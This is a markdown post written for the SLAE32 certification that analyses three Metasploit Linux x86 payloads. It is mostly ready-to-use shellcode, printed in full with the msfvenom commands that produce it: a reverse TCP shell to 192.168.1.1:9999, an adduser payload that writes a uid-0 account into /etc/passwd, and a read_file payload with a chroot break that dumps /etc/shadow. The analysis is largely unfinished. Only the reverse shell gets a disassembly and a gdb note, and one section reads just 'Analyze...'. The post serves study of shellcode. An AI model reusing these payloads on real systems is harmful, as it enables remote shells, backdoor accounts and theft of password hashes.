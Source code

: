 ```yaml
---
layout: page
title: SLAE32 Assignment 5
---
```


<div class="well" markdown="1">
<h2>SLAE32 Assignment 5: Analysis</h2>

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1009

Take three payload samples from msfpayload
analyze using ndisasm, libemu, gdb
present analysis

My first thought was to analyze at least one meterpreter shellcode. Alas, they are enormous and I would like to do more with the rest of my life instead of analyzing almost 1MB of shellcode. So instead, I opted for shorter ones. First, I wanted to look at their reverse tcp shellcode. I managed to get mine into 100 bytes, but the Metasploit one is 68 bytes, so I really wanted to see their approach on that one. Second, I wanted to look at their implementation of adduser. For the last one, I had noticed in viewing the payload options that they all had some extra options and one that intrigued me was PrependChrootBreak. I was not sure off the top of my head how they would do that and so I thought that would go well with the read_file shellcode.

<h2>Reverse TCP</h2>
First the shellcode itself:
```
$ msfvenom -p linux/x86/shell_reverse_tcp -f c LHOST=192.168.1.1 LPORT=9999
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of c file: 311 bytes
unsigned char buf[] =
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8\x01\x01\x68"
"\x02\x00\x27\x0f\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
"\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
"\x52\x53\x89\xe1\xb0\x0b\xcd\x80";
```
The first thing I did was run it through `ndisasm` to view the assembly code.  

```
$ msfvenom -p linux/x86/shell_reverse_tcp -f raw LHOST=192.168.1.1 LPORT=9999 | ndisasm -u -
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes

00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
00000004  53                push ebx
00000005  43                inc ebx
00000006  53                push ebx
00000007  6A02              push byte +0x2
00000009  89E1              mov ecx,esp
0000000B  B066              mov al,0x66
0000000D  CD80              int 0x80
0000000F  93                xchg eax,ebx
00000010  59                pop ecx
00000011  B03F              mov al,0x3f
00000013  CD80              int 0x80
00000015  49                dec ecx
00000016  79F9              jns 0x11
00000018  68C0A80101        push dword 0x101a8c0
0000001D  680200270F        push dword 0xf270002
00000022  89E1              mov ecx,esp
00000024  B066              mov al,0x66
00000026  50                push eax
00000027  51                push ecx
00000028  53                push ebx
00000029  B303              mov bl,0x3
0000002B  89E1              mov ecx,esp
0000002D  CD80              int 0x80
0000002F  52                push edx
00000030  686E2F7368        push dword 0x68732f6e
00000035  682F2F6269        push dword 0x69622f2f
0000003A  89E3              mov ebx,esp
0000003C  52                push edx
0000003D  53                push ebx
0000003E  89E1              mov ecx,esp
00000040  B00B              mov al,0xb
00000042  CD80              int 0x80
```

Analyze...


GDB:
Finding entry point take a little extra work, as this elf has the minimal amount of information possible. Commands like `info file` in gdb give no information at all. So the way to find the entry point is with the command readelf:
```
$ readelf -h reverse_tcp
ELF Header:
  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00
  Class:                             ELF32
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Intel 80386
  Version:                           0x1
  Entry point address:               0x8048054
  Start of program headers:          52 (bytes into file)
  Start of section headers:          0 (bytes into file)
  Flags:                             0x0
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         1
  Size of section headers:           0 (bytes)
  Number of section headers:         0
  Section header string table index: 0
```
We can see from here that the entry point is 0x8048054, so we can now load it up into gdb and set a breakpoint for that address and run it.


<h2>Add User</h2>
```
$ msfvenom -p linux/x86/adduser -f c USER=assembly PASS=you_slae_me SHELL=/bin/bash
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
unsigned char buf[] =
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x61\x73"
"\x73\x65\x6d\x62\x6c\x79\x3a\x41\x7a\x70\x2f\x76\x6c\x31\x33"
"\x44\x38\x69\x71\x67\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62"
"\x69\x6e\x2f\x62\x61\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";
```



<h2>Read File</h2>
```
$ msfvenom -p linux/x86/read_file -f c  PrependChrootBreak=true PATH=/etc/shadow
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 121 bytes
Final size of c file: 535 bytes
unsigned char buf[] =
"\x31\xc9\x31\xdb\x6a\x46\x58\xcd\x80\x6a\x3d\x89\xe3\x6a\x27"
"\x58\xcd\x80\x89\xd9\x58\xcd\x80\x31\xc0\x50\x66\x68\x2e\x2e"
"\x89\xe3\x6a\x3d\x59\xb0\x0c\xcd\x80\xe2\xfa\x6a\x3d\x89\xd9"
"\x58\xcd\x80\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80"
"\x89\xc3\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00"
"\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00"
"\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8"
"\xc5\xff\xff\xff\x2f\x65\x74\x63\x2f\x73\x68\x61\x64\x6f\x77"
"\x00";
```
